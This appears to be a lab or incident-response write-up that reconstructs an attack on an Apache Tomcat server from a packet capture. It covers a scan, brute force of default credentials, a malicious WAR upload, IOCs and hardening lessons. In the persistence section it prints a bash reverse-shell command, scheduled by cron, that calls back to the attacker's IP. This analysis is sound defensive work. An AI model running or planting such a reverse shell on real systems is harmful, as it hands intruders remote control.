






#### Scenario

## Overview

A web server on the company intranet was flagged for suspicious activity. A PCAP was captured for analysis. The goal was to reconstruct the full attack chain — from initial reconnaissance through to persistence — against an Apache Tomcat web server.

---

## Investigation

### Identifying the Attacker

With only one external IP address present in the capture, the attacker was immediately identifiable. 

Geolocation placed the source IP in China.

**Attacker IP:** `14[.]0[.]0[.]120`


### Reconnaissance

Filtering by attacker IP and HTTP traffic revealed a port scan followed by directory enumeration activity consistent with Gobuster:
```
ip.addr == 14.0.0.120 && http
```

The scan uncovered several open ports. Port `8080` was identified as exposing the Tomcat admin panel.

---
### Directory Enumeration

HTTP stream analysis confirmed Gobuster was used to enumerate directories. The attacker successfully discovered the `/manager` endpoint — Tomcat's web application manager interface.

---

### Credential Brute Force

With the admin panel located, the attacker brute-forced credentials. The successful login was:

**Username:** `admin`  
**Password:** `tomcat`


---

### WAR File Upload / Reverse Shell

Following authentication to `/manager`, the attacker uploaded a malicious WAR file to deploy a reverse shell:

**Filename:** `JXQOZY.war`

HTTP stream analysis of the POST request confirmed the upload. Following the resulting TCP stream revealed the attacker's shell session.




---
### Persistence

After establishing the reverse shell, the attacker scheduled a cron job to maintain persistent access:

**Scheduled command:**

```
/bin/bash -c 'bash -i >& /dev/tcp/14[.]0[.]0[.]120/443 0>&1'
```



****
## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Network Service Scanning|T1046|Port scan to identify open services|
|Brute Force|T1110|Credential brute-force against Tomcat manager|
|Deploy Container / Server Software|T1505.003|WAR file upload for server-side execution|
|Command and Scripting Interpreter: Unix Shell|T1059.004|Bash reverse shell|
|Scheduled Task/Job: Cron|T1053.003|Cron-based persistence|

---
## IOCs 

| Type             | Value                  |
| ---------------- | ---------------------- |
| Attacker IP      | `14[.]0[.]0[.]120`     |
| Attacker Country | China                  |
| Admin Port       | `8080`                 |
| Enumeration Tool | Gobuster               |
| Admin Directory  | `/manager`             |
| Credentials      | `admin:tomcat`         |
| Malicious File   | `JXQOZY.war`           |
| C2 Callback      | `14[.]0[.]0[.]120:443` |

## Lessons Learned

- Default Tomcat credentials (`admin:tomcat`) should be rotated immediately on deployment — this is a trivially guessable pair that any basic wordlist will crack
- The Tomcat manager interface (`/manager`) should never be exposed externally and should be restricted by IP allowlist
- WAR file upload capability should be disabled or locked down in production environments
- Cron persistence via reverse shell callback is a common post-exploitation step — scheduled task monitoring and outbound connection baselining would catch this

---

## References

[MITRE ATT&CK T1505.003 - Server Software Component: Web Shell](https://attack.mitre.org/techniques/T1505/003/)


---
















